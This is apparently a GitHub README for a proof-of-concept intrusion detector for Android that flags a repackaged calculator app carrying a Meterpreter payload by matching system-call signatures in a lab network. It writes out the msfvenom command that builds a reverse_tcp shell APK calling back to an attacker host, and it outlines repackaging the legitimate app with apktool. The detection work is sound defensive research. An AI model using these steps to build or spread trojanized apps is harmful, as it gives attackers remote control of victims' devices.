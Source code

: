 # HIDS_Android: Host-Based Intrusion detection system for Android

## Implementation:

The	main	idea	behind	this	implementation	is	a	proof	of	concept	that	takes	two	same	applications,	
one	legit	and	the other repackaged with a malicious payload (msfvenom). Then,	apply	signature	detection,	based on	system	calls	to	match	certain	type	of	pattern.	
Eventually,	this	allows	to	detect	or	prevent	some	attack,	in	our	case,	the	execution	of	
meterpreter	commands	through	a	reverse_tcp	shell.	

## Defense environment:

This PoC	relies	on	three	hosts	all	connected	to	the	same	network	172.16.16.0/24:	

- Kali	linux	VM : Acts	as	a	remote	attack	machine,	which	the	reverse	tcp	shell,	
waiting	for	the	malicious	application	to	be	launched.
- Android	x86	VM (Kitkat	4.4):	Acts	as	the	victim	phone/tablet
- Centos	host:	acts	as	the	HIDS	and	connects	remotely	to	the	Androidx86	through	ADB	
(Android	 debug	 bridge)	 to	 launch	 both	 applications	 (legit	 and	 malicious)	 with	 Monkey	 while	
collecting	the	strace (Zigote)	results	to	be	parsed	and	compared	to	the	signatures.

## Repackaging the legit App:

To simulate the repackaging attack,	a new malicious version of the legit app (calculator.apk), has been created	
(com.simplemobiletools.calculator_malicious)	 embedding	 a	 meterpreter	 payload	 know	 as	
android/meterpreter/reverse	tcp.	
Creation of malicious.apk as	below: 

```msfvenom	-p	android/meterpreter/reverse_tcp	LHOST=172.16.16.5	LPORT=6130	-o	malicious.apk```

Decompiling of legit	 version	 com.simplemobiletools.calculator.apk	
along	 with	 the	 malicious.apk,	 to	 finally	 hook	 the	 malicious	 payload	 and	
create	com.simplemobiletools.calculator_malicious.apk	(Tool	used:	apktool). 

#### *Android Desktop with 2 apps*

![Android Desktop with 2 apps](images/android_desktop.png)

## Running the program:

To test Meterpreter	payload	signature, the	server	will	wait	for	an	incoming	connection	to	form	the	reverse_tcp	shell,	and	allow	 the	 attacker	 to	 run	 remote	 command (take a screenshot for example)

#### *MSF reverse_shell*

![MSF reverse_shell](images/reverse_shell.png)

- ### On the Legit App:
```hids_android.py com.simplemobiletools.calculator```

#### *Legit App detection*

![Legit App detection](images/legitapp_normal.png)

- ### On the malicious App:
```hids_android.py com.simplemobiletools.calculator```

Will raise an alarm, without having the remote attacker server ready to handle the reverse shell

#### *Malicious App detection conn attempt*

![Malicious App detection attempt](images/repackapp_conn_attempt.png)


Will now raise an alarm, and kill the application launched, since it detects a reverse shell signature (remote attacker server is ready this time)

#### *Malicious App detection conn detected*

![Malicious App detection detected](images/repackapp_conn_detected.png)

### Future work:

Implement Machine Learning in a supervised way, to train and catch legit pattern.



